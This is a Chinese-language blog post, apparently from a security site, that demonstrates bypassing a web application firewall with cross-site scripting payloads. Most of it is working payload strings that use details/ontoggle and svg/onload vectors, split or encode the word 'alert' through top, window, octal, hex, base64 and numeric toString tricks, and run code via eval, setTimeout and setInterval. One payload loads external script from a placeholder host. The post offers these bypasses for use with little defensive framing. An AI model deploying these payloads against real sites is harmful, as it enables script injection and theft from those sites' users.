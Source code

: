 ## 前言
- - -
对于我这个菜鸟来说，我通过谷歌百度学习到很多前辈的资料，甚至每句话都是他的指导，我也很感激前辈的为我们铺设的道路，让我们更快的成长起来。我也乐于分享，可能有些知识点过于单调或者久远，请见谅。

## waf
- - -
前几天花了10买了一个月的服务器，换个waf来测试。
![1](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xeuqs6nwj30g60cgdge.jpg)   

### Test

遗漏标签就不测试了，上一篇[水文](https://www.anquanke.com/post/id/176185)的分享的标签也可以过，不信找几个试试= =

好吧非常打脸，拦截了。

![2](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xf5z6pwcj30uj0590t6.jpg)

然而换个prompt()函数???免费版当然是这样的啦，高级服务不仅我买不起，还绕不过啊，而且我不是真正的站长，规则我也不会设啊，总之就是这也不会那也不会。

![3](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xf9uioa9j30uj094wf8.jpg)

![4](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xff076fvj30c80c874l.jpg)

### Top属性类似的补充
- - -
还记得上篇的top属性嘛

![5](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xfxfayjoj30kg04ot8n.jpg)

实际上可以利用的还有好几个，看到这里各位是否get到什么了。

![6](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xju6slwuj30ub06raac.jpg)

我们可以利用的类似拼接的对象又多了几个，例如：
```html
//一家人就是要整整齐齐
<details open ontoggle=top['al'%2B'ert'](1) >
<details open ontoggle=self['al'%2B'ert'](1) >
<details open ontoggle=parent['al'%2B'ert'](1) >
<details open ontoggle=frames['al'%2B'ert'](1) >
<details open ontoggle=content['al'%2B'ert'](1) >
<details open ontoggle=window['al'%2B'ert'](1) >
```
这些都可以绕过waf，总结起来有 `top` `self` `parent` `frames` `content` `window`，无疑`top`是最短的，所谓短小精悍，这里借用PKAV的一张ppt。

![7](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xkryc227j30fp073782.jpg)

### 其他补充
除了拆分构造，我们必须要了解还有编码，这个确实是老生常谈的话题，先看个例子吧

将e字母url编码，成功弹窗也绕过waf。
`<details open ontoggle=top['al%65rt'](1) >`
![11](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xte6v6ioj30uj07bwf4.jpg)

其他编码
```html
JS8编码：
<details open ontoggle=top['al\145rt'](1) >
<details open ontoggle=top['\141\154\145\162\164'](1) >
JS16编码：
<details open ontoggle=top['al\x65rt'](1) >
其他
<details open ontoggle=top[/al/.source%2B/ert/.source](1) >
```
### parseInt()与toString()
- - -
**parseInt()**

![12](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xw3xjyifj30nj0b1dga.jpg)

例子: `alert`字符串用`parseInt函数`，以基数为30转化后为`8680439`


![13](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xw6xbo82j30ff05tq2z.jpg)

**toString()**


![14](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xwe1vapzj30g809z0sx.jpg)

例子: `toString函数`将返回的数字`8680439`,以基数为30还原

![15](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xwgo4zb3j30fl083wen.jpg)

这样你就能理解下面这个例子了。
```html
<details open ontoggle=top[8680439..toString(30)](1); >
<details open ontoggle=top[11189117..toString(32)](1); >
```
![16](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xwsdzqctj30uj0930tj.jpg)

### 俩个例子
- - -
**例1**
```html
<img src=1 alt=al lang=ert onerror=top[alt%2blang](0)>
```
这个例子很巧妙，将`alt`和`lang`属性分别赋值合并起来就是`alert`，并在top属性内将2个属性相加。


**例2**
```html
 <details open ontoggle=top[a='al',b='ev',b%2ba]('alert(1)')>
```
在top属性内添加2个变量，并赋值构造eval，然后执行alert(1)

测试下，拦截了。
![8](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xodipv2ej30uj05hmxm.jpg)

其实waf，拦截的是alert这个关键字，换个`prompt()`函数就过了

![9](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xoh9uty6j30uj086q3n.jpg)

也可以选择将`alert(1)`编码，因为有eval存在啊，直接拿来用

```html
<details open ontoggle=top[a='al',b='ev',b%2ba](atob('YWxlcnQoMSk='))>
<details open ontoggle=top[a='al',b='ev',b%2ba]('\141\154\145\162\164\50\61\51')>
<details open ontoggle=top[a='al',b='ev',b%2ba]('\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029')>
```

![10](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xom9zf77j30uj097mxz.jpg)

setTimeout()函数也是没问题的，毕竟也能执行代码。 
```html
<details open ontoggle=top[a='meout',b='setTi',b%2ba]('\141\154\145\162\164\50\61\51')>
```

## eval函数的补充
- - -
`setTimeout`比eval略眼熟，也是比较常见的。

![19](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ycyd6jedj30no0adt90.jpg)

waf拦截
```html
<svg/onload=setTimeout`alert(1)`>
```
![17](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xy2v7lvnj30uj05d74p.jpg)

编码下，就绕过了。
```html
<svg/onload=setTimeout`alert\u0028233\u0029`>
```
![18](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xy76ggesj30uj0813z5.jpg)

与`setInterval`不同，对于`setTimeout()`只执行code一次。

![20](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yczzsa24j30no0exwf8.jpg)

`<svg/onload=setInterval('al'%2b'ert(1)')>`

![21](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yd573lavj30uj09qwf9.jpg)

绕过waf，引用外部js。
```html
<svg/onload=setInterval(appendChild(createElement('script')).src='http://xx.xx/eeW')>
```
![22](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yd9dqh46j30uj0e4q4j.jpg)

关于运用基于DOM的方法创建和插入节点把外部JS文件注入到网页，这种方法在<<XSS跨站脚本gj剖析与防御>>有介绍过。我这里简单演示下，如果你了解或者不感兴趣可以跳过这段。

首先用createElement方法创建一个script标签。

![23](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ydpwjmafj30fh07jt8s.jpg)

接下来给<script>的src属性设置成外部url
 
![24](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ydrl28mhj30fe0b1jrn.jpg)
